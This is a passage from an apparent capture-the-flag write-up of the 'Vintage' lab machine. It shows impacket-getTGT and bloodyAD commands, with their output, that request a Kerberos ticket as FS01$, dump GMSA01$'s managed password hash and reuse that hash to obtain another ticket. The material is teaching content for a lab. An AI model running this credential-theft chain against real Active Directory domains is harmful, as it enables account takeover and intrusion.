 From FS01 to GMSA01, we can see that FS01 can read GMS's password

The GMS can then be added to the Administrators group.

## FOOTHOLD
---
We use `impacket-getTGT`: we provide password, hash or aeskey to request TGT and save it in ccache format

```bash
❯ impacket-getTGT -dc-ip 10.10.11.45 vintage.htb/FS01$:fs01
```

```bash
❯ impacket-getTGT -dc-ip 10.10.11.45 vintage.htb/FS01$:fs01
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Saving ticket in FS01$.ccache
```

Once we have the `.ccache` we set the environment variable **KRB5CCNAME** to FS01\$.ccache to specify the cache file that the Kerberos client should use.

```bash
export KRB5CCNAME=FS01\$.ccache
```

Once the `.ccache` file has been exported, we use **bloodyAD** to interact with **Active Directory**, through Kerberos authentication, to obtain the password for the managed service account named `GMSA01$` (stored in the msDS-ManagedPassword attribute) from the specified **Active Directory** domain controller

```bash
bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k get object 'GMSA01$' --attr msDS-ManagedPassword
```

```bash
❯ bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k get object 'GMSA01$' --attr msDS-ManagedPassword

distinguishedName: CN=gMSA01,CN=Managed Service Accounts,DC=vintage,DC=htb
msDS-ManagedPassword.NTLM: aad3b435b51404eeaad3b435b51404ee:51434c5b357ff89c5f85d994a27f7339
msDS-ManagedPassword.B64ENCODED: qNZ+qlGD+Cx17DM27SffmeF+2eftJRLCsHfxsLxSzhh2dERzgKmiJzvEHrfEAqstlS64r4Y1OQdu8sdCT6b8+gYXpLDa8xBQIFyshNK7YPrERV3rJVALnhITHE4lKIYoagI4Dr9owAMBGo7ZC4LOoBGk90mk4uuIMHNtylVRWva41F+v2TFCzSNfKnBSVuLhiZ+koEMTCkgP3Z+4Xnnluw6qkD3WPsnsYDlYYizOGPhsUwB1GJyzFHawe4iwfVnbWQdouCgflR27treFO5W0R5RqcRhkwEYLomOobFVUa3kGh1iQNdpaJLPI6Uo4767UM1O/sSaeML8nKVKhwsDolA==
```

Thanks to this we use it to get a Kerberos ticket from the **Active Directory** domain controller using a known GMSA account hash

```bash
impacket-getTGT vintage.htb/GMSA01$ -hashes aad3b435b51404eeaad3b435b51404ee:51434c5b357ff89c5f85d994a27f7339
```

```bash
❯ impacket-getTGT vintage.htb/GMSA01$ -hashes aad3b435b51404eeaad3b435b51404ee:51434c5b357ff89c5f85d994a27f7339
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Saving ticket in GMSA01$.ccache
```
